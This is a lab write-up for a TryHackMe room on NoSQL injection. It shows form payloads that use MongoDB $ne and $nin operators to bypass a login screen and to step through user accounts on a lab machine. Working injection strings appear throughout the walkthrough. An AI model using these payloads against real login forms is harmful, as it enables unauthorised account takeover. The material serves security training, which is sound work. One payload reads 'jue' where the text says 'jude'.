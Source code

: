 # NoSQL Injection

**Room Link:** [https://tryhackme.com/r/room/nosqlinjectiontutorial](https://tryhackme.com/r/room/nosqlinjectiontutorial)





## Operator Injection: Bypassing the Login Screen

Bypassing the Login Screen

First of all, let's open the website on [http://10.10.191.67/](http://machine\_ip/) and send an incorrect user/pass to capture the request on Burp:

![Website View](https://tryhackme-images.s3.amazonaws.com/user-uploads/6093e17fa004d20049b6933e/room-content/6093e17fa004d20049b6933e-1719679685897.png)\


The original captured login request looks like this:

![Burp Request](https://tryhackme-images.s3.amazonaws.com/user-uploads/6093e17fa004d20049b6933e/room-content/6093e17fa004d20049b6933e-1719679753604.png)\


We now proceed to intercept another login request and modify the user and pass variables to send the desired arrays:

```
user[$ne]=hackeru&pass[$ne]=hackerp&remember=on
```

![Burp Request](https://tryhackme-images.s3.amazonaws.com/user-uploads/6093e17fa004d20049b6933e/room-content/6093e17fa004d20049b6933e-1719679773572.png)\


This forces the database to return all user documents and as a result we are finally logged into the application:

<div align="center">

<img src="https://tryhackme-images.s3.amazonaws.com/user-uploads/6093e17fa004d20049b6933e/room-content/6093e17fa004d20049b6933e-1719679795855.png" alt="Website View">

</div>

## Operator Injection: Logging in as Other Users

Logging in as Other Users

We have managed to bypass the application's login screen, but with the former technique, we can only login as the first user returned by the database. By making use of the $nin operator, we are going to modify our payload so that we can control which user we want to obtain.

First, the $nin operator allows us to create a filter by specifying criteria where the desired documents have some field, not in a list of values. So if we want to log in as any user except for the user admin, we could modify our payload to look like this:

![Burp Request](https://tryhackme-images.s3.amazonaws.com/user-uploads/6093e17fa004d20049b6933e/room-content/6093e17fa004d20049b6933e-1719679859318.png)\


This would translate to a filter that has the following structure:

`['username'=>['$nin'=>['admin'] ], 'password'=>['$ne'=>'aweasdf']]`

Which tells the database to return any user for whom the username isn't admin and the password isn't aweasdf. As a result, we are now granted access to another user's account.

Notice that the $nin operator receives a list of values to ignore. We can continue to expand the list by adjusting our payload as follows:

![Burp Request](https://tryhackme-images.s3.amazonaws.com/user-uploads/6093e17fa004d20049b6933e/room-content/6093e17fa004d20049b6933e-1719679886213.png)\


```
user[$nin][]=admin&user[$nin][]=jue&pass[$ne]=aweasdf&remember=on
```

This would result in a filter like this:\


`['username'=>['$nin'=>['admin', 'jude'] ], 'password'=>['$ne'=>'aweasdf']]`



This can be repeated as many times as needed until we gain access to all of the available accounts.

Note: The `jude` user above is not an actual user, but an example of how an additional username can be added.

**To find other users**

<pre><code>#found user john
user[$nin][]=admin&#x26;user[$nin][]=pedro&#x26;pass[$ne]=aweasdf&#x26;remember=on

<strong>#found user secret
</strong>user[$nin][]=admin&#x26;user[$nin][]=pedro&#x26;user[$nin][]=john&#x26;pass[$ne]=aweasdf&#x26;remember=on

#no more users found
user[$nin][]=admin&#x26;user[$nin][]=pedro&#x26;user[$nin][]=john&#x26;user[$nin][]=secret&#x26;pass[$ne]=aweasdf&#x26;remember=on
</code></pre>



